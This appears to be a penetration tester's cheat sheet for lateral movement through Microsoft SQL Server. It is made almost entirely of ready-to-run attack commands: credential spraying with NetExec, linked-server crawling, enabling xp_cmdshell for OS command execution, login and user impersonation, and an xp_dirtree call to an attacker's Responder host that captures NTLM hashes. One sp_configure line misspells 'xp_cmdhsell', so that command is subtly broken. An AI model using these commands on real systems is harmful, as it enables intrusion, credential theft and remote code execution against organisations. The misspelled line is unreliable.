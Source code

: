 # MSSQL Lateral Movement

## Tools: CrackMapExec/Netexec , impacket-mssqlclient

    netexec mssql IP -u USER -p PASSWORD -d DOMAIN (Find mssql access)

    MATCH p=(u:User)-[:SQLAdmin]->(c:Computer) RETURN p (Users with SQL Admin bloodhound cypher query)

### Trust Link

#### 1) Metasploit

    use exploit/windows/mssql/mssql_linkcrawler

#### 2) Powershell MSSQL Module

    Get-SQLServerLinkCrawl -username USERNAME -password PASSWORD -Verbose -Instance SQL_INSTANCE -Query "SQL_QUERY"

#### 3) impacket-mssqlclient

    impacket-mssqlclient -windows-auth DOMAIN/USER:PASSWORD@IP

### Commands upon login:

    enum_db

    enable xp_cmdshell --> xp_cmdshell COMMAND (Gives low access shell)

    EXEC MASTER.sys.xp_dirtree '\\RESPONDER_IP\test', 1, 1 (Coerce SMB. NTLM Hash Capture)

    trustlink --> sp_linkedservers --> use_link (MSSQL Lateral Movement)

    enum_impersonate --> exec_as_user USER

    enum_impersonate --> exec_as_login LOGIN

#### 4) MSSQL Client shell

    EXECUTE sp_configure 'show advanced options',1; RECONFIGURE;

    EXECUTE sp_configure 'xp_cmdhsell',1; RECONFIGURE;

    EXEC xp_cmdshell 'COMMAND' (Gains low access shell)
